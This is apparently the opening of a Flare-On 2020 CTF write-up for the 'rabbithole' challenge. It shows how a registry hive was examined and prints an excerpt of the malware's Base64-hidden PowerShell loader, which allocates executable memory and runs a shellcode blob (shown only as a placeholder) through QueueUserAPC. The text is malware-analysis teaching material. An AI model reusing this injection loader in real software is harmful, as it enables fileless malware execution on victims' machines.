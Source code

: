 ## Flare-On CTF 2020
# Challenge 11 : rabbithole

```
One of our endpoints was infected with a very dangerous, 
yet unknown malware strain that operates in a fileless manner. 
The malware is - without doubt - an APT that is the ingenious work of the Cyber Army of the Republic of Kazohinia.

One of our experts said that it looks like they took an existing banking malware family, 
and modified it in a way that it can be used to collect and exfiltrate files from the hard drive.

The malware started destroying the disk, 
but our forensic investigators were able to salvage ones of the files. 
Your task is to find out as much as you can about the behavior of this malware, 
and try to find out what was the data that it tried to steal before it started wiping all evidence from the computer.

Good luck!
```

We are provided with a partial registry dump

I used [Registry Explorer](https://ericzimmerman.github.io/) to open and look through this hive

After exploring a little, one of the registry keys jumps out as weird

![timerpro](img/01.png)

The **Software\\Timerpro** key contains a value **D** that has what looks like powershell code

Base64 decoding this code reveals a powershell script that is like the following  
Take note specifically of the **$rpl** variable

```ps
$jjw="kcsukccudy";
function hjmk{[System.Convert]::FromBase64String($args[0]);};
[byte[]]$rpl = <HUGE BINARY BLOB == SHELLCODE >
function geapmkxsiw{$kjurpkot=hjmk($args[0]);

.........

$kwhk=$tselcfxhwo::OpenThread(16,0,$tselcfxhwo::GetCurrentThreadId());
if($yhibbqw=$ywqphsrw::VirtualAllocEx($ywqphsrw::GetCurrentProcess(),0,$rpl.Length,12288,64))
{
 [System.Runtime.InteropServices.Marshal]::Copy($rpl,0,$yhibbqw,$rpl.length);
 if($tselcfxhwo::QueueUserAPC($yhibbqw,$kwhk,$yhibbqw))
 {
  $tselcfxhwo::SleepEx(5,3);
```